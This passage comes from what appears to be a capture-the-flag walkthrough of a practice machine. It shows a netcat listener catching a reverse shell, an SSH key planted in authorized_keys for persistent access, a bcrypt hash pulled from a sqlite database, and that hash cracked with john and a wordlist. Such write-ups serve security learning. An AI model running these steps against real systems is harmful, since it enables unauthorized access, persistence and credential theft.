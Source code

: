 On the listener:

```console
$ nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.16.5] from (UNKNOWN) [10.10.11.239] 46578
$ id
id
uid=1001(svc) gid=1001(svc) groups=1001(svc)
$ ls -la /home 
ls -la /home
total 16
drwxr-xr-x  4 joshua joshua 4096 Sep 12 17:10 .
drwxr-xr-x 18 root   root   4096 Oct 31 07:57 ..
drwxrwx---  3 joshua joshua 4096 Nov  2 12:22 joshua
drwxr-x---  4 svc    svc    4096 Sep 26 10:00 svc

$ mkdir .ssh
mkdir .ssh
$ echo 'ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIHrYUfv/qSFTn/e0f+C8yrOtzaJh7gq3ugnPVrTMHK2V e@k' > .ssh/authorized_keys
echo 'ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIHrYUfv/qSFTn/e0f+C8yrOtzaJh7gq3ugnPVrTMHK2V e@k' > .ssh/authorized_keys
$ exit
exit

$ ssh svc@$t
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-88-generic x86_64)
[...]

svc@codify:~$ 
```

## Escalate

There's a `sqlite3` database with a hash for the user `joshua`:

```console
svc@codify:/var/www/contact$ sqlite3 tickets.db 
SQLite version 3.37.2 2022-01-06 13:25:41
Enter ".help" for usage hints.
sqlite> show tables;
Error: in prepare, near "show": syntax error (1)
sqlite> .tables
tickets  users  
sqlite> select * from users;
3|joshua|$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2
```

`john` easily cracks the hash:

```console
$ john --wordlist=~/rockyou.txt ./hash --format=bcrypt
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 4096 for all loaded hashes
Will run 12 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:04 0.00% (ETA: 2023-11-08 10:30) 0g/s 75.34p/s 75.34c/s 75.34C/s strawberry..nicole1
0g 0:00:00:08 0.00% (ETA: 2023-11-08 17:25) 0g/s 74.31p/s 74.31c/s 74.31C/s gloria..scorpion
sponge[...]       (?)     
1g 0:00:00:19 DONE (2023-11-06 12:31) 0.05047g/s 70.87p/s 70.87c/s 70.87C/s winston..harry
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
